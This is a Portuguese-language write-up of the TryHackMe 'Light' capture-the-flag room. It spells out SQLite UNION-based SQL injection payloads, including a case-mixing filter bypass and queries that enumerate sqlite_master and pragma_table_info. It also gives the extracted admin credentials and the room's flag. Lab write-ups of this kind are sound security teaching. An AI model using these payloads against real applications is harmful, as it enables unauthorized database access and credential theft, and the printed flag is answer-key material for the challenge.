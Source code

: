 # Room - Light - TryHackMe 

Level: Easy

Ao conectar no servidor, recebemos uma mensagem de ...

Inserimos o usuário que foi fornecido no enunciado e o servidor nos retorna a senha dele.

A primeira ideia foi tentar conectar via SSH com essas credenciais, mas não foi possível.

Como o enunciado sugere que é um sistema de banco de dados, a segunda aproximação envolveu verificar se o sistema é vulnerável a ataques de SQL Injection.

Utilizando alguns dos payloads encontrados no repo https://github.com/payloadbox/sql-injection-payload-list, e baseado nas mensagens de erro, foi possível identificar que o engine usado no banco de dados era o SQLite

Testando o payload ' UNION SELECT 1+1' foi exibida uma mensagem indicando que existem filtros para algumas expressões e caracteres.

Felizmente as expressões do SQLite não são case-sensitive, então ao tentar alterar os caracteres entre maiúsculos e minúsculos, conseguimos bypassar o filtro e executar as operações normalmente.

' UnIoN SeLeCt 1+1 '

retornou o resultado: 2, indicando que o código estava sendo de fato executado pelo banco de dados.

A partir daí, o foco é em enumerar as informações das tabelas. Para isso, vamos prosseguir com o método de ataque utilizando as expressões UNION 
https://portswigger.net/web-security/sql-injection/union-attacks

Conforme a documentação do SQLite, disponível em https://www.sqlite.org/schematab.html Em todos os bancos de dados que utilizam essa engine, vai existir uma tabela que contém algumas 
informações sobre todas as outras tabelas.

CREATE TABLE sqlite_schema(
  type text,
  name text,
  tbl_name text,
  rootpage integer,
  sql text
);

Podendo receber esses nomes alternativos: 
    sqlite_master
    sqlite_temp_schema
    sqlite_temp_master 


Seguindo nosso procedimento para conseguir as informações, podemos utilizar o payload
' UNiON SeLect tbl_name FROM sqlite_master '

Descobrimos a tabela admintable

Agora podemos fazer o mesmo processo dentro dessa tabela.
Para descobrir o nome das colunas, podemos realizar a query exemplificada nesse post do fórum do SQLite https://sqlite.org/forum/info/9add3c3898aed7c4

' UnIoN SeLect name from pragma_table_info('admintable') '
Primeira coluna: id

' UnIoN SeLect name from pragma_table_info('admintable') where name != 'id
Segunda coluna: password

' UnIon SeLect name from pragma_table_info('admintable') where name != 'id' and name != 'password
Terceira coluna: username

# Verificando os usernames
' UnIon SeLect username from admintable ' 
*TryHackMeAdmin*

' UnIoN SeLeCt password from admintable where username = 'TryHackMeAdmin
*mamZtAuMlrsEy5bp6q17*

Vamos tentar realizar o acesso via SSH com essas credenciais, mas novamente, não foi possível.

Realizando uma nova consulta ao banco de usuários 
' UnIon SeLect username from admintable where username != 'TryHackMeAdmin

Olha ela aí!, encontramos o usuário *flag* agora vamos ver se a flag está na senha 
' UnIoN SeLeCt password from admintable where username = 'flag

E Foi!
Encontramos a flag
THM{SQLit3_InJ3cTion_is_SimplE_nO?}

